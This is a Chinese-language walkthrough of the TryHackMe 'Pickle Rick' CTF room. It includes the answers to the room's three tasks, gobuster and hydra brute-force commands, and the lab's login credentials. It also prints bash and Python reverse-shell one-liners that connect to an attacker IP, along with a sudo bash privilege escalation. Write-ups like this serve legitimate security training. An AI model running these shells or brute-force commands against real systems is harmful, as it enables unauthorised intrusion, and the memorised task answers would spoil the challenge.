










# Pickle-Rick: 一个完整的挑战
这是一个CTF靶场，这个挑战需要你扮演Morty在目标主机上找到**三种成分（ingredients）** 帮助Rick
从白菜**变回人类**。

- 挑战前需要通过访问Web开始。
- 找到三种`ingredients`
## 此挑战需要回答以下问题

::: details **Task-1** 药剂的第一种成分是什么？
答案：`mr. meeseek hair`
:::
::: details **Task-2** 药剂的第二种成分是什么？
答案：`1 jerry tear`
:::
::: details **Task-3** 药剂的最后一种成分是什么？
答案：`fleeb juice`
:::

## 解题思路总结

[Rickle-Rick](assets/web-pickle-rick/Rickle-Rick.canvas)

## 详细过程



信息收集是渗透测试中的重要环节，我们渗透测试过程中要注意不要错误任何细节。
### 登陆web首页

登陆首页后，没有没有发现啥有用的信息，但是通过查看网页源码发现一个用户名：



除此之外没有发现任何信息。

### 目录爆破

目录爆破是对任何web应用渗透的必须做的工作，这可以帮助你发现整个网站的路径和隐藏的文件，我在此做了多次爆破，以便收集到尽可能有用的信息：

- 目录爆破：
::: code-group
```bash [SecLists]
gobuster dir -u http://10.10.55.189  -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt 
```

```bash [dirbuser-list]
gobuster dir -u http://10.10.79.158 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
:::

- 文件爆破：
::: code-group
```bash [SecLists]
gobuster dir -u http://10.10.55.189  -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -x x php,txt,zip,html,bak
```

```bash [dirbuser-list]
gobuster dir -u http://10.10.79.158 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip,html,bak
```
:::

>[!TIP] 注意⚠️
>
>如果在此没得到什么有用的信息，可能是你的字典选择错误，选对字典对我们获取有用的信息非常重要。我渗透的时候因为选错字典走了弯路。

**目录爆破结果**

目录爆破结果，因首先关注状态码为`200`的，其次关注状态码为`300` 的

```sh{5-8} [text]
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 200)
/server-status (Status: 403)
```
### 端口扫描

通过`nmap`端口扫描，发现此主机开启了TCP`80`、`22`端口，尝试爆破22端口，**未成功**。

```bash
hydra -l R1ckRul3s -P /usr/share//usr/share/wordlists
/rockyou.txt  ssh://10.10.204.241
```

>[!NOTE]
>之所以在此尝试爆破`ssh`密码,是因为我在目录爆破时选错字典，导致未发现有用信息😭。但是一般情况，爆破`ssh` 密码很难做到不是第一选择。

### 登陆Web应用

回到目录爆破结果，
```sh{5-8} [text]
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 200)
/server-status (Status: 403)
```

我们首先关注`login.php` 因为这一般是登陆界面：




其次我们关注`/robots.txt`在`/robots`中发现了一串字符串 `Wubbalubbadubdub`**（“robots.txt”文件通常包含Web开发人员不希望搜索引擎找到和显示的目录）,**

到现在我们已知了用户密码，也找到了登陆界面，因此我们应该尝试登陆：
- 用户名：`R1ckRul3s`
- 密码：`Wubbalubbadubdub`
输入勇猛密码后我们来到了`Command Panel` 命令行页面：



### 尝试执行命令并获取第一种成分

在命令航执行命令：
```bahs
whoami && pwd && ls
```

我们知道当前用户是`www-data`,当前路径是`/var/www/html`还可以发现一些目录爆破没有发现的文件：


我们尝试访问这些文件，可以发现一些提示，最终在文件命最长的文件中找到第一种成分。



### 尝试进行shell反弹

既然可以在web上执行命令，那就可以尝试进行shell 反弹，通过终端远程连接到主机，尝试 执`nc`，界面无反应，尝试执行`python python --version` 有反应。再此我们可以选择两种方式（除nc外）进行反弹：

```sh [bash]
bash -C 'bash -i >& /dev/tcp/**Local-IP**/443 0>&1 '
```

```sh [python]
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`
```

>[!IMPORTANT] Localhost
>本地主机一定要监听与上面命令内容一致的端口，在此监听的是`443`
>`nc -nvlp 443`
>

### 获取第二种成分

成功连接终端后，我们可以执行`cd`命令跳转到`/home`下，或直接执行`ls /home`  命令，在此会发现在`rick`用户目录。跳转到该目录下，会发现`second  ingredients` 文件，使用`cat`命令查看此文件会发现第二种成分。

```bash
cat /home/rick/second\ ingredients # or  cat /home/rick/‘second ingredients‘

1 jerry tear
```

### 提权并获得第三种成分

目前已获取到两种成分，只要获取到剩下的最后一种成分，就可以答完提名，目前我们可以从整个答题过程感受到，这是一个逐渐突破边界，并获取更高权限的过程，因此我们接下来应该获取到`root`权限。

要获取`root`权限，我们通常要不断尝试才可能成功，在这里我从最好用最常见的开始尝试，直接查看当前用户的`sudo`权限配置:

```bash
sudo -l
```

发现此用户执行`sudo` 不需要密码，因此可以直接通过`sudo`命令提权：



::: code-group
```bash [命令1] 
sudo bash -p  
```

```bash [命令2]
sudo bash 
```

:::

到此，我们通过`whoami` 命令查看，可知我们目前已获取到`root`权限，让我们跳转到`/root`下，找到`3rd.txt`文件，`cat` 命令查看该文件，获取第三种成分：`fleeb juice`



## 总结

通过本次挑战复习了以下知识点和技能：
- 渗透测试的思维方式
- gobuser 目录爆破仅能
- 目标主机无`nc`情况下的shell反弹
- linux提权
- `robots.txt` 目录的做用


https://complexsecurity.io/try-hack-me/pickle-rick


```cardlink
url: https://complexsecurity.io/try-hack-me/pickle-rick
title: "Pickle Rick - TryHackMe Complete Walkthrough — Complex Security"
description: "In this room, we will exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle"
host: complexsecurity.io
favicon: https://images.squarespace-cdn.com/content/v1/604cef0922e44a51184bef23/bedf99dd-8d81-4ba1-b461-eb359392c045/favicon.ico?format=100w
image: http://static1.squarespace.com/static/604cef0922e44a51184bef23/604d36b3a02885259026eb6e/6079b27589856b0a0ec2f3eb/1625529831782/header.jpg?format=1500w
```


